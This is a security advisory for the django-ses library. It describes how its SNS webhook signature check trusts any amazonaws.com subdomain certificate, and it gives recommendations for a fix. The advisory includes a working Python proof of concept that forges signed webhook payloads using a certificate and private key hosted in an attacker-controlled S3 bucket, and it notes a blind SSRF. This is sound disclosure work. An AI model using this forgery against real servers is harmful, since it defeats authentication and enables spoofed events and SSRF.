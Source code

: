 # Certificate URL: signature verification exposure

0. TL;DR:

If you were using the default setting or any `amazonaws.com` subdomain for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS`,
signature verification webhooks would have allowed someone hosting an arbitrary S3 bucket to send verified webhook
calls to your server.

`django-ses==3.5.0` addresses this by matching the `amazonaws.com` certificate URLs against a known regex, `SES_REGEX_CERT_URL`.

1. Overview

The django_ses library implements a mail backend for Django using AWS Simple Email Service.
The library exports the `SESEventWebhookView` class intended to receive signed requests from AWS
to handle email bounces, subscriptions, etc.
These requests are signed by AWS and are verified by django_ses, however the verification of this
signature was found to be flawed as it allowed users to specify arbitrary public certificates.

2. Description

The [`SESEventWebhookView`](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L379)
view class implements a [`post` handler](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L409)
which receives signed requests. By default (as [noted](https://github.com/django-ses/django-ses/tree/master#full-list-of-settings) in the README)
signature verification is enabled. Signature verification is [performed](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L420)
by the [`verify_event_message`](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L252)
utility function which uses the `EventMessageVerifier.is_verified` method.

This method obtains the public certificate from a URL passed within the request
(https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L166-L189):

```py
    def _get_cert_url(self):
        """
        Get the signing certificate URL.
        Only accept urls that match the domains set in the
        AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS setting. Sub-domains
        are allowed. i.e. if amazonaws.com is in the trusted domains
        then sns.us-east-1.amazonaws.com will match.
        """
        cert_url = self._data.get("SigningCertURL")
        if not cert_url:
            logger.warning('No signing certificate URL: "%s"', cert_url)
            return None

        if not cert_url.startswith("https://"):
            logger.warning('Untrusted certificate URL: "%s"', cert_url)
            return None

        url_obj = urlparse(cert_url)
        for trusted_domain in settings.EVENT_CERT_DOMAINS:
            parts = trusted_domain.split(".")
            if url_obj.netloc.split(".")[-len(parts) :] == parts:
                return cert_url

        return None
```

Some validation is performed on the certificate URL to ensure it is from a trusted domain. By default, the trusted domains are
(https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/settings.py#L50-L61):

```py
EVENT_CERT_DOMAINS = getattr(
    settings,
    'AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS',
    getattr(
        settings,
        'AWS_SNS_BOUNCE_CERT_TRUSTED_DOMAINS',
        (
            'amazonaws.com',
            'amazon.com',
        )
    )
)
```

However, the validation of the certificate URL allows for arbitrary subdomains. Because anyone can host arbitrary files on a
subdomain of `amazonaws.com` (through hosting an AWS S3 bucket), it is possible to host an arbitrary public certificate which
gets validated and used to verify signatures.

3. Proof of Concept

To test the vulnerability, we can create a Django app and install the library:

```sh
django-admin startproject demo
cd demo
pip3 install django-ses[events]
```

Then, add the SESEventWebhookView view to the `urlpatterns` list in `urls.py`:

```py
from django.urls import path
from django_ses.views import SESEventWebhookView

urlpatterns = [
    path(r'ses/event-webhook/', SESEventWebhookView.as_view(), name='handle-event-webhook')
]
```

Run the server:

```py
python manage.py runserver
```

This runs the server on port 8000. Notice that if you send a POST request to `/ses/event-webhook`
it will fail with "Signature verification failed.":

```sh
curl -X POST http://localhost:8000/ses/event-webhook/ -d '{"Type":"SubscriptionConfirmation", "SubscribeURL": "https://example.com"}'
Signature verification failed.
```

The following Python script implements a proof of concept that signs an arbitrary payload using our attacker-controlled
private key. For convenience of testing, the certificate is available at

https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/publickey.cer

and the private key is available at

https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/private.key

```py
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives.asymmetric import utils
import json
import requests
from base64 import b64encode

# https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L191
def _get_bytes_to_sign(_data):
    """
    Creates the message used for signing SNS notifications.
    This is used to verify the bounce message when it is received.
    """

    # Depending on the message type the fields to add to the message
    # differ so we handle that here.
    msg_type = _data.get('Type')
    if msg_type == 'Notification':
        fields_to_sign = [
            'Message',
            'MessageId',
            'Subject',
            'Timestamp',
            'TopicArn',
            'Type',
        ]
    elif (msg_type == 'SubscriptionConfirmation' or
          msg_type == 'UnsubscribeConfirmation'):
        fields_to_sign = [
            'Message',
            'MessageId',
            'SubscribeURL',
            'Timestamp',
            'Token',
            'TopicArn',
            'Type',
        ]
    else:
        # Unrecognized type
        return None

    bytes_to_sign = []
    for field in fields_to_sign:
        field_value = _data.get(field)
        if not field_value:
            continue

        # Some notification types do not have all fields. Only add fields
        # with values.
        bytes_to_sign.append(f"{field}\n{field_value}\n")

    return "".join(bytes_to_sign).encode()

cert_url = 'https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/publickey.cer'
# privkey available here https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/private.key
privkey = serialization.load_pem_private_key(open('./private.key','rb').read(), password=None)
target_endpoint = 'http://localhost:8000/ses/event-webhook/'

payload = {
    'Type': 'SubscriptionConfirmation',
    'SubscribeURL': 'http://localhost:9999',
}

sign_bytes = _get_bytes_to_sign(payload)
chosen_hash = hashes.SHA1()
hasher = hashes.Hash(chosen_hash)
hasher.update(sign_bytes)
digest = hasher.finalize()
sig = privkey.sign(
    digest,
    padding.PKCS1v15(),
    utils.Prehashed(chosen_hash)
)
payload['SigningCertURL'] = cert_url
payload['Signature'] = b64encode(sig).decode()

r = requests.post(target_endpoint, json=payload)
print(r.status_code) # this is 200, which indicates the message was accepted
```

3. Impact

The impact may vary depending on the context of the application and how bounce events are
handled. Due to the fact that the library suggests that signatures are verified by default,
consumers may consider the data to be trusted and hence use it without appropriate validation.
At the very least, this issue allows a (blind) SSRF vulnerability through the `SubscriptionConfirmation`
event type, however I didn't note this having a very large impact on its own.

4. Credits

Joseph Surin, elttam

5. Recommendations

If you're not setting a value for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS`, upgrade to `v3.5.0` and re-test your webhooks to make sure the
signature verification still passes.

If you are setting a value for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS` and it contains `amazonaws.com`, set the full domain instead. This
is best practice even if your domain is not `amazonaws.com`, to restrict the possible security risk of other subdomains sending
verifiable webhook calls.

See `django-ses` [Releases](https://github.com/django-ses/django-ses/releases/tag/v3.5.0) for more details about the code changes.
